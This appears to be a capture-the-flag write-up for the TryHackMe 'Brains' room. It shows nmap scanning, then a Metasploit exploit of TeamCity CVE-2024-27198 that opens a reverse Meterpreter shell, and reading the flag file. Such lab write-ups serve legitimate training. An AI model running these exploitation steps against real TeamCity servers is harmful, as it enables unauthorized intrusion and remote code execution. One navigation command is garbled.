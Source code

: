 ![Nmap Scan](Theme%20Brains.JPG)
> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

# RED exploit the server!
# 1. First Step: run in the Terminal "nmap -p- <Target_IP_Address>"

```bash
nmap -p- 10.10.252.192
````
1. "nmap" -> The network scanner tool
2. "-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
3. "<Target_IP_Address>" -> The IP address of the target — in the case of the Brains room
![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)

# What ports are open and why they matter: 
1. 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
2. 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
3. 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.

# Run a targeted service/version scan for PORT 50000 "nmap -sV -p 50000 <Target_IP_Address>"
```bash
nmap -sV -p 50000 10.10.252.192
```

# 2. Second Step: What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability

*The most interesting one here is Port 50000: even though it's labeled ibm-db2, we know now it runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).*
```bash
msfconsole
```
1. "msfconsole" -> This launches the Metasploit interface.

```bash
search teamcity
```
1. "search teamcity" -> This will list available exploit modules related to TeamCity
*Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198*

#  Use the module:
```bash
use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
```
# After loading an exploit module in Metasploit, you should always run: 
```bash
options
```
1. "options" -> This command shows you all the configurable parameters for the selected module
   
![Nmap Scan](Brain%20Room%20exploit%20run.JPG)

*We need to set the correct options before running the exploit.*
```bash
set RHOSTS 10.10.252.192     # Target IP address
set RPORT 50000              # Target port where TeamCity is running
```
*Once all the necessary parameters (like RHOSTS, RPORT) are configured and verified using the options command, it's time to execute the exploit*
```bash
run   #or exploit
```
# Expected Output:
*If the target is vulnerable and the configuration is correct, you should see output similar to this:*
```bash
[*] Started reverse TCP handler on 10.10.X.X:4444
[*] Sending stage (57971 bytes) to 10.10.X.X
[*] Meterpreter session 1 opened ...
```
*This confirms that you now have a meterpreter shell on the target machine!*

# Now That We Are in Meterpreter...Navigate the file system
```bash
cd /home/cd ubuntu
ls
```
*Once you find it, read its contents*
```bash
cat flag.txt
```
![Nmap Scan](Brain%20Room%20flag.JPG)

# For ethical and platform policy reasons, I cannot display the actual contents of the flag.txt file.
*Instead, here is a simulated example of what the output would look like:*

```bash
meterpreter > cat flag.txt
THM{redacted_for_policy}
```
